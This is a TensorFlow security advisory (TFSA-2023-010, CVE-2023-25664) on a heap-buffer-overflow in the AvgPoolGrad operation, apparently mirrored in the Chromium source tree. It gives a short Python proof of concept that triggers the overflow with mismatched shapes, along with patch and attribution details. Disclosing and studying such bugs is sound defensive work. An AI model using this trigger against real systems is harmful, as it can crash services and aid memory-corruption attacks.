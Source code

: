 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2023-010.md
## TFSA-2023-010: Heap-buffer-overflow in AvgPoolGrad  

### CVE Number
CVE-2023-25664

### Impact
```python
import os
os.environ['TF_ENABLE_ONEDNN_OPTS'] = '0'
import tensorflow as tf
print(tf.__version__)
with tf.device("CPU"):
    ksize = [1, 40, 128, 1]
    strides = [1, 128, 128, 30]
    padding = "SAME"
    data_format = "NHWC"
    orig_input_shape = [11, 9, 78, 9]
    grad = tf.saturate_cast(tf.random.uniform([16, 16, 16, 16], minval=-128, maxval=129, dtype=tf.int64), dtype=tf.float32)
    res = tf.raw_ops.AvgPoolGrad(
        ksize=ksize,
        strides=strides,
        padding=padding,
        data_format=data_format,
        orig_input_shape=orig_input_shape,
        grad=grad,
    )
```

### Patches
We have patched the issue in GitHub commit [ddaac2bdd099bec5d7923dea45276a7558217e5b](https://github.com/tensorflow/tensorflow/commit/ddaac2bdd099bec5d7923dea45276a7558217e5b).

The fix will be included in TensorFlow 2.12.0. We will also cherrypick this commit on TensorFlow 2.11.1


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by <evn@google.com>
